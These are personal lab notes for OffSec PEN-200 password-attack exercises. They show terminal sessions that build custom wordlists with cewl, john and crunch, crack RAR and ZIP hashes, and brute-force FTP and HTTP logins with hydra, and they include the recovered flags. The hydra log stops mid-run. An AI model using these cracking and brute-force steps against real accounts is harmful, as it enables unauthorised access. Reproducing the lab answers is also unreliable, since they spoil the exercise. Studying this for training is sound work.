


# offsec labs

backlinks: [[snippets-bash]]

sources:

---

## PEN-200: 19.4.6 Password cracking


2.You found this encrypted file flag.rar after gaining access to the manager of MegaCorp One's /challenge folder on the VM #1 while conducting a pentest on the company. You previously identified a couple of his other passwords including nanomedicines234 and Cyberisation649 where nanomedicines and Cyberisation both are products of MegaCorp (words) that can be found on their website www.megacorpone.com. You also know the password requirement is at least 12 characters with 3 digits. Use this information to generate a custom wordlist to crack this zip file and get the flag.
```
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cewl www.megacorpone.com -m 9 -w words.lst
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cat words.lst                              
nanotechnology
technologies
Nanotechnology
opportunities
nanomedicines
regeneration
applications
Regeneration
Micromachine
Cyberisation
Assimilation
environmental
Nanoprocessors
nanoprocessors
Administrator
administration
Representative
installation
Representatives
demonstrable
TomHudsonMCO
TanyaRiveraMCO
MattSmithMCO
artificially
expectations
substantially
restrictions
Opportunities

┌──(kali㉿kali)-[/]
└─$ sudo nano /etc/john/john.conf
List.Rules:Wordlist
added three digits to the end

built list
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ john --wordlist=words.lst --rules --stdout > mutated.txt
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
32128p 0:00:00:00 100.00% (2023-03-08 15:24) 247138p/s Opportunities999
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cat mutated.txt| wc
  32128   32128  534737


└─$ scp -P 2222 student@$IP:/challenge/flag.rar /home/kali/Documents/git/bravo/offsec/pen200/19-PasswordAttacks/flag.rar
The authenticity of host '[192.168.125.52]:2222 ([192.168.125.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:RRfRf4vQTcDdHWrjD28VxwyFkztuI1V47Jl5Bet13jE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.125.52]:2222' (ED25519) to the list of known hosts.
student@192.168.125.52's password: 
flag.rar    


 rar2john flag.rar > a.txt


└─$ sudo john --rules --wordlist=mutated.txt a.txt
Using default input encoding: UTF-8
Loaded 1 password hash (RAR5 [PBKDF2-SHA256 128/128 AVX 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Literature248    (flag.rar)     
1g 0:00:02:49 DONE (2023-03-08 16:14) 0.005885g/s 167.2p/s 167.2c/s 167.2C/s impossible248..regulated249
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ unrar x flag.rar        

UNRAR 6.21 freeware      Copyright (c) 1993-2023 Alexander Roshal

Enter password (will not be echoed) for flag.rar: 


Extracting from flag.rar

Extracting  flag.txt                                                  OK 
All OK
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cat flag.txt   
OS{62f026a7a9a97989ca17ac5ee9f2d245}                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ 


```

    You found this encrypted file flag.zip after gaining access to a manager's /challenge folder while conducting a pentest on the target VM #2. You previously identified several of her other passwords including bella9221!! and charlie2323## where rosie and bailey are the names of two of her pets. Looking at her social media, you find out she has a third pet named buddy. Use this information to generate a custom wordlist to open this file and get the flag.

```
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ crunch 11 11 -t buddy%%%%^^ > 2.crunch
Crunch will now generate the following amount of data: 130680000 bytes
124 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10890000 


┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ ls -la                                           
total 210428
drwxr-xr-x  2 kali kali      4096 Mar  8 17:02 .
drwxr-xr-x 18 kali kali      4096 Mar  8 12:25 ..
-rw-r--r--  1 kali kali      1451 Mar  8 15:29 19.4.6.2.vm1.script
-rw-r--r--  1 kali kali      1556 Mar  8 16:40 19.4.6.2.vm2.script
-rw-r--r--  1 kali kali 130680000 Mar  8 17:06 2.crunch
-rw-r--r--  1 kali kali         6 Mar  8 17:01 2.words
-rw-r--r--  1 kali kali       106 Mar  8 16:06 a.txt
-rw-r--r--  1 kali kali  37128728 Mar  8 12:52 crunch.txt
-rw-r--r--  1 kali kali       270 Mar  8 15:31 flag.rar
-rw-r--r--  1 kali kali        36 Mar  8 15:09 flag.txt
-rw-r--r--  1 kali kali       230 Mar  8 16:39 flag.zip
-rw-r--r--  1 kali kali        91 Mar  8 14:47 hash.txt
-rw-r--r--  1 kali kali     57287 Mar  8 14:31 image-1.png
-rw-r--r--  1 kali kali    187851 Mar  8 13:38 image.png
-rw-r--r--  1 kali kali     14349 Mar  8 12:25 lab.md
-rw-r--r--  1 kali kali      2951 Mar  8 12:42 megacorp-cewl.txt
-rw-r--r--  1 kali kali   1657000 Mar  8 16:00 mutated.txt
-rw-r--r--  1 kali kali      3280 Mar  8 13:08 notes.md
-rw-r--r--  1 kali kali       106 Mar  8 15:50 rar.hashes
-rw-r--r--  1 kali kali       106 Mar  8 15:52 rar.txt
-rw-r--r--  1 kali kali  45677500 Mar  8 16:50 START
-rw-r--r--  1 kali kali        42 Mar  8 16:02 una.txt
-rw-r--r--  1 kali kali      1315 Mar  8 15:59 words.lst
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ zip2john flag.zip 2.hashes                                                                            
ver 1.0 efh 5455 efh 7875 flag.zip/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=48, decmplen=36, crc=1151D366 ts=34D1 cs=34d1 type=0
flag.zip/flag.txt:$pkzip$1*2*2*0*30*24*1151d366*0*42*0*30*34d1*76004d4414c6fe93f49d7a74a85942760d04b4ee6ca7fd88f8ee67344f08f4a70b2048dca5a2c0fd5378a1a7e432263b*$/pkzip$:flag.txt:flag.zip::flag.zip
! 2.hashes : No such file or directory
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ zip2john flag.zip > 2.hashes
ver 1.0 efh 5455 efh 7875 flag.zip/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=48, decmplen=36, crc=1151D366 ts=34D1 cs=34d1 type=0
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cat 2.hashes                          
flag.zip/flag.txt:$pkzip$1*2*2*0*30*24*1151d366*0*42*0*30*34d1*76004d4414c6fe93f49d7a74a85942760d04b4ee6ca7fd88f8ee67344f08f4a70b2048dca5a2c0fd5378a1a7e432263b*$/pkzip$:flag.txt:flag.zip::flag.zip
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ sudo john --rules --wordlist=2.crunch 2.hashes
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
buddy3083~~      (flag.zip/flag.txt)     
1g 0:00:00:00 DONE (2023-03-08 17:08) 1.960g/s 6585Kp/s 6585Kc/s 6585KC/s buddy3069^?..buddy3084*+
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ unzip flag.zip                
Archive:  flag.zip
[flag.zip] flag.txt password: 
password incorrect--reenter: 
replace flag.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: yes
 extracting: flag.txt                
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ cat flag.txt
OS{419108f742fc2ce7e79e890d44c1b1e3}                                      

```

    After enumerating the target VM #3, you will find an FTP server running that is available remotely. Use a password attack technique to log into this FTP server with the user offsec while keeping the number of workers not above 3.

```


┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ hydra -l offsec -P /home/kali/Documents/git/SecLists/Passwords/500-worst-passwords.txt  ftp://$IP -vV -t 3 

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 18:51:34
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore

[DATA] max 3 tasks per 1 server, overall 3 tasks, 499 login tries (l:1/p:499), ~167 tries per task
[DATA] attacking ftp://192.168.125.52:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "123456" - 1 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "password" - 2 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "12345678" - 3 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "1234" - 4 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pussy" - 5 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "12345" - 6 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "dragon" - 7 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "qwerty" - 8 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "696969" - 9 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "mustang" - 10 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "letmein" - 11 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "baseball" - 12 of 499 [child 2] (0/0)
[STATUS] 12.00 tries/min, 12 tries in 00:01h, 487 to do in 00:41h, 3 active
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "master" - 13 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "michael" - 14 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "football" - 15 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "shadow" - 16 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "monkey" - 17 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "abc123" - 18 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pass" - 19 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "fuckme" - 20 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "6969" - 21 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jordan" - 22 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "harley" - 23 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "ranger" - 24 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "iwantu" - 25 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jennifer" - 26 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hunter" - 27 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "fuck" - 28 of 499 [child 0] (0/0)
[STATUS] 9.33 tries/min, 28 tries in 00:03h, 471 to do in 00:51h, 3 active
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "2000" - 29 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "test" - 30 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "batman" - 31 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "trustno1" - 32 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "thomas" - 33 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "tigger" - 34 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "robert" - 35 of 499 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "access" - 36 of 499 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "love" - 37 of 499 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "buster" - 38 of 499 [child 0] (0/0)
[21][ftp] host: 192.168.125.52   login: offsec   password: buster
[STATUS] attack finished for 192.168.125.52 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 18:55:59


```

    Use a password attack technique against the target VM #4 to log into the website with the offsec user.

```

hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 80 -vV $IP http-head /

└─$ hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 80 -vV $IP http-head /  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 19:17:06
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://192.168.125.52:80/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "654321" - 17 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "michael" - 18 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "ashley" - 19 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "qwerty" - 20 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "111111" - 21 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "iloveu" - 22 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "000000" - 23 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "michelle" - 24 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "tigger" - 25 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sunshine" - 26 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "chocolate" - 27 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "password1" - 28 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "soccer" - 29 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "anthony" - 30 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "friends" - 31 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "butterfly" - 32 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "purple" - 33 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "angel" - 34 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jordan" - 35 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "liverpool" - 36 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "justin" - 37 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "loveme" - 38 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "fuckyou" - 39 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "123123" - 40 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "football" - 41 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "secret" - 42 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "andrea" - 43 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "carlos" - 44 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jennifer" - 45 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "joshua" - 46 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "bubbles" - 47 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "1234567890" - 48 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "superman" - 49 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hannah" - 50 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "amanda" - 51 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "loveyou" - 52 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pretty" - 53 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "basketball" - 54 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "andrew" - 55 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "angels" - 56 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "tweety" - 57 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "flower" - 58 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "playboy" - 59 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hello" - 60 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "elizabeth" - 61 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hottie" - 62 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "tinkerbell" - 63 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "charlie" - 64 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "samantha" - 65 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "barbie" - 66 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "chelsea" - 67 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "lovers" - 68 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "teamo" - 69 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jasmine" - 70 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "brandon" - 71 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "666666" - 72 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "shadow" - 73 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "melissa" - 74 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "eminem" - 75 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "matthew" - 76 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "robert" - 77 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "danielle" - 78 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "forever" - 79 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "family" - 80 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jonathan" - 81 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "987654321" - 82 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "computer" - 83 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "whatever" - 84 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "dragon" - 85 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "vanessa" - 86 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "cookie" - 87 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "naruto" - 88 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "summer" - 89 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sweety" - 90 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "spongebob" - 91 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "joseph" - 92 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "junior" - 93 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "softball" - 94 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "taylor" - 95 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "yellow" - 96 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "daniela" - 97 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "lauren" - 98 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "mickey" - 99 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "princesa" - 100 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "alexandra" - 101 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "alexis" - 102 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "jesus" - 103 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "estrella" - 104 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "miguel" - 105 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "william" - 106 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "thomas" - 107 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "beautiful" - 108 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "mylove" - 109 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "angela" - 110 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "poohbear" - 111 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "patrick" - 112 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "iloveme" - 113 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sakura" - 114 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "adrian" - 115 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "alexander" - 116 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "destiny" - 117 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "christian" - 118 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "121212" - 119 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sayang" - 120 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "america" - 121 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "dancer" - 122 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "monica" - 123 of 14344399 [child 10] (0/0)
